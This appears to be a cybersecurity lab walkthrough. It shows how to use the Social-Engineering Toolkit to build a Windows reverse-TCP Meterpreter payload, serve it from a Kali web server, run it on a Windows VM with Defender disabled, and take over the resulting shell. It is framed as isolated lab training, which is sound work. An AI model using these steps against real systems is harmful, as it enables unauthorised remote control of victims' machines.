






- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how establish a Meterpreter shell on a Windows target using SET.

**Lab Purpose:**

SET (Social Engineering Toolkit) is designed to perform advanced cyber security attacks against the human element. It is an open-source tool developed in Python aimed at penetration testing around social engineering.

**Lab Tool:**

Kali Linux and Windows

**Lab Topology:**

You can use Kali Linux in a VM and a Windows machine for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be looking at how to create a Metasploit payload using SET, and then establish a Meterpreter shell using this payload. This payload can be run on the victim machine to provide us with a Meterpreter shell on that machine. We will be targeting a Windows machine in a virtual machine for this lab. You can find pre-installed Windows VM images from Microsoft’s links below:

https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/

After Windows VM installation is completed, put this machine into the same “Host-Only Network” with Kali VM to isolate attacks/scans from your real network.

### Task 2:

Before moving on to the next step, we need to put Kali VM into the “Host-Only Network”. Since Kali will be disconnected from the internet, you will see errors at the top of the command menus. However, it will not be a problem for us. To begin, open SET in Kali VM by typing the following:

sudo setoolkit

The attack we will be conducting involves creating a payload and can be found under the first menu, “Social-Engineering Attacks”. To choose this menu, type 1.

We will then be presented with another menu. Once here, we will be choosing option 4, “Create a Payload and Listener”. Select this option by typing 4 and hitting enter.

We will be presented with another menu here which will ask us what kind of payload we wish to create. For this lab, we will be choosing option 2, “Windows Reverse_TCP Meterpreter”. Type 2 and hit enter.

We will then be asked for the IP address which the target will connect to when the payload is run. Open another terminal screen in Kali VM, then simply type an “ifconfig” command to learn the IP address of eth0 interface. Return to setoolkit screen, enter this IP address below and press enter (1).

Next, you will be asked for a port. I have chosen port 5555 for this lab, but you can choose any port (2). Once you enter the port, SET will begin generating the payload. Once this is done, SET will ask if you want to start the payload and listener now. Type yes and hit enter (3). Our created payload file can be found this path “/root/.set/payload.exe” in Kali VM.

SET will now launch Metasploit and begin a listener for us using the information we provided for the payload. This is an easier way of creating a Metasploit payload and starting a listener.

### Task 3:

When the listener is started, transfer the payload file to your Windows virtual machine. It will be called “payload.exe” or something similar. In order to transfer this file to the Windows machine easily, we will run nginx web server in Kali VM and download the file from within Windows. Open a terminal screen in Kali VM then type these commands:

sudo cp -v /root/.set/payload.exe /var/www/html/

sudo nginx

Now, switch to Windows VM, open a browser. Type this URL into the address bar (1):

[http://192.168.56.103/payload.exe](http://192.168.56.103/payload.exe)

192.168.56.103 is the IP address of Kali VM in this instance.

Ensure that “Windows Defender” is turned off so that the payload can run effectively. Then, with the listener running in Metasploit, download and execute the payload in the Windows VM (2).

Return to your Kali VM and you will find that we have a Meterpreter shell on the target.

To view the different sessions/shells you have running in Metasploit, type sessions. To interact with the established Meterpreter shell, type:

sessions -i 1